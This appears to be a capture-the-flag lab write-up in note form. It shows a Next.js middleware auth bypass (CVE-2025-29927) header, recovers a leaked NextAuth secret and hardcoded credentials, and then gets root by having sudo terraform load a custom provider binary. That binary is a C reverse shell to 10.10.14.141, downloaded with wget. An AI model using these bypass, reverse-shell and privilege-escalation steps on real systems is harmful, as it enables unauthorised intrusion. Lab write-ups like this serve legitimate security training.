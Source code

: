 ![[IMG-20250825192312409.png]]
## User Flag

### [CVE-2025-29927](https://github.com/lirantal/vulnerable-nextjs-14-CVE-2025-29927)

![[IMG-20250825192312472.png]]

![[IMG-20250825192312635.png]]
USE:
```
x-middleware-subrequest: middleware:middleware:middleware:middleware:middleware
```

![[IMG-20250825192312724.png]]

![[IMG-20250825192312815.png]]

![[IMG-20250825192312925.png]]

![[IMG-20250825192313002.png]]



![[IMG-20250825192313077.png]]

![[IMG-20250825192313147.png]]

```
NEXTAUTH_SECRET=82a464f1c3509a81d5c973c31a23c61a
```

### [Doc Next Auth](https://next-auth.js.org/getting-started/example)

![[Pasted image 20250825232529.png]]

```
  pages/api/auth/[...nextauth].js
```

![[IMG-20250825192313327.png]]

```js
let o = {
        session: { strategy: "jwt" },
        providers: [
          r.n(CredentialsProvider)()({
            name: "Credentials",
            credentials: {
              username: { label: "User", type: "username" },
              password: { label: "Password", type: "password" }
            },
            authorize: async e =>
              e?.username === "jeremy" &&
              e.password === (process.env.ADMIN_SECRET ?? "MyNameIsJeremyAndILovePancakes")
                ? { id: "1", name: "Jeremy" }
                : null
          })
        ],
        pages: { signIn: "/signin" },
        secret: process.env.NEXTAUTH_SECRET
      };
```


```
user: jeremy
password: MyNameIsJeremyAndILovePancakes
```

![[IMG-20250825192313380.png]]

## Root Flag

### Analyse

![[IMG-20250825192313517.png]]

![[IMG-20250825192313635.png]]

### Exploit

[Doc Terraform](https://developer.hashicorp.com/terraform/cli/config/environment-variables)

![[IMG-20250825192313713.png]]

Load a config file custom.

![[IMG-20250825192313763.png]]

### Attacker machine

```bash
gcc main.c -o terraform-provider-examples
python3 -m http.server 8000
nc -lvnp 4444
```

main.c:
```c
#include <unistd.h>
int main() {
    execl("/bin/bash", "bash", "-c", "bash -i >& /dev/tcp/10.10.14.141/4444 0>&1", NULL);
    return 0;
}

```

### Victim machine

```bash
wget http://10.10.14.141:8000/terraform-provider-examples
chmod +x terraform-provider-examples
sudo /usr/bin/terraform -chdir\=/opt/examples apply
```
Look at [[Linux/Privilege Escalation|Privilege Escalation]] for more details

![[IMG-20250825192313844.png]]

![[IMG-20250825192313920.png]]




